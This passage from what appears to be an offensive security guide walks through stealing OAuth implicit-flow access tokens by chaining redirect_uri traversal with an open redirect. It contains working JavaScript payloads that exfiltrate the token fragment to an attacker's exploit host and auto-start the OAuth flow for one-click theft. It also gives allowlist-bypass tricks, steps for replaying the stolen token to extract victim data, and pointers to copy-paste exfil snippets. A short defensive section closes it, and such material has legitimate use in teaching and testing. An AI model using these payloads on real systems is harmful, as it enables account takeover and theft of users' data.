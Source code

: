 5) Exfiltrate the fragment
   - On your exploit server at `/exploit`, use minimal JS to send the fragment somewhere observable (access logs, your endpoint):
```
<script>location='/?'+location.hash.slice(1)</script>
```
   - For one-click steals, auto-initiate OAuth if the hash is missing:
```
<script>
if (!location.hash) {
  location = 'https://{IDP_HOST}/auth?client_id={CLIENT_ID}&redirect_uri='+
    encodeURIComponent('https://{VICTIMSITE}/oauth-callback/../{OPENREDIRECTPATH}?path=https://{EXPLOIT_HOST}/exploit')+
    '&response_type=token&nonce={RAND}&scope=openid%20profile%20email';
} else {
  location = '/?'+location.hash.slice(1);
}
</script>
```

6) Use the token
   - In Repeater, swap `Authorization: Bearer <your-token>` with the stolen token on the client’s API (e.g., `GET /me`). Extract the target’s data (admin API key, profile, etc.).

Notes and pitfalls
- Fragments (`#...`) are not sent in HTTP requests; you must use JS to read and exfiltrate.
- Some IdPs enforce exact-match allowlists. Use encoded traversal (`%2e%2e/`) or parameter smuggling (`?next=`) if normalization is weak.
- If `response_mode=form_post` is enforced, pivot to form-catching endpoints or different bugs; this guide targets the implicit flow (`response_type=token`).
- `state` and `nonce` typically don’t prevent this token leak if the redirect target remains attacker-controlled via open redirect.

Defensive guidance
- Enforce exact `redirect_uri` allowlists (normalized, casefolded, trailing-slash-consistent). Never use prefix checks.
- Disallow `..`, mixed encodings, and double-encoding in allowlist comparisons; normalize before compare.
- Remove open redirects or strictly validate redirect targets to same-origin, static paths.
- Prefer Authorization Code + PKCE, issue tokens server-side, and avoid putting access tokens in fragments.
- Validate `state` binding to the correct `redirect_uri`. Consider CSP and no inline scripts on callback pages.

Reusable payloads and templates
- See `Oauth/wordlists/redirect_uri_bypasses.txt` for `redirect_uri` tricks.
- See `Oauth/wordlists/open_redirect_params_and_payloads.txt` for open-redirect hunting.
- See `Oauth/wordlists/combined_oauth_open_redirect_templates.txt` for full-chain URL templates.
- See `Oauth/wordlists/exfiltration_js_snippets.html` for copy-paste exfil snippets.

Burp workflow (quick)
- Intercept login → send IdP `/auth` and client `/me` to Repeater.
- Test `redirect_uri` suffix/traversal; verify you can land on arbitrary client paths.
- Find open redirect; confirm absolute URL redirect works.
- Chain to exploit server, observe `#access_token` in browser → exfil via JS.
- Reuse token on `/me` to retrieve sensitive data.
